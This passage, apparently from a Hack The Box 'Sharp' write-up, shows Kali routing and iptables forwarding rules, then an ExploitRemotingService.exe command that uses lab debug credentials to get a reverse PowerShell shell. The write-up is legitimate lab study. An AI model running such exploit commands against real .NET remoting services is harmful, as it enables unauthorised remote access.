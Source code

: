 #### Network re-routing on Windows and Linux

Before we can send our payload to target host, remember that currently our Linux machine is the only one can connect to HTB VPN, not our Windows. In order to establish a connection between Windows and HTB VPN, we have to do some routing.

The following section helps us turn Kali into a router and act as the gateway.

```bash
# Windows
# We want to route any HTB connection to our Kali machine NAT-IP
C:\Windows\system32>route add 10.10.10.0 mask 255.255.255.0 192.168.157.133
 OK!

#	----------------------------------------------

# Linux
# Enable IP Forwarding
$ echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward 

# Configurate iptables' rules to manage incomming packets
# This rule forwards packets from HTB to our Windows machine
# Breakdown: Forwarding chain for connection from tun0 to eth0 interface with related and/or established state
$ iptables -A FORWARD -i tun0 -o eth0 -m state --state RELATED,ESTABLISHED -j ACCEPT 

# Accept packets sending back from Windows machine
# Breakdown: Receive packets from Windows through eth0 interface then pass it on tun0 and send them to HTB
$ iptables -A FORWARD -i eth0 -o tun0 -j ACCEPT

# Re-routing NAT from HTB machine back to Windows
# Breakdown: Create a NAT table with POSTROUTING chain that accept only IP from the source of eth0 and pass it through tun0 with MASQUERADE policy
$ iptables -t nat -A POSTROUTING -s 192.168.157.0/24 -o tun0 -j MASQUERADE 
```

### PowerShell Reverse Connection

Finally, our Windows is able to send/receive packets from HTB machine through Kali.

![](https://github.com/legiahuyy/image-host/raw/main/2021-5-14-HTB-Sharp/2021-05-15_12-49.png)

Now we can send our payload to target remote host and wait for our reverse shell.

```shell
### ExploitRemotingService.exe
C:\Users\User\Desktop\ExploitRemotingService-master\ExploitRemotingService\bin\Release>ExploitRemotingService.exe -s --user=debug --pass="SharpApplicationDebugUserPassword123!" tcp://10.10.10.219:8888/SecretSharpDebugApplicationEndpoint raw <wrapped payload>
```

After execute the above command, we has established a reverse PowerShell as user `lars`.

![](https://github.com/legiahuyy/image-host/raw/main/2021-5-14-HTB-Sharp/2021-05-15_13-17.png)
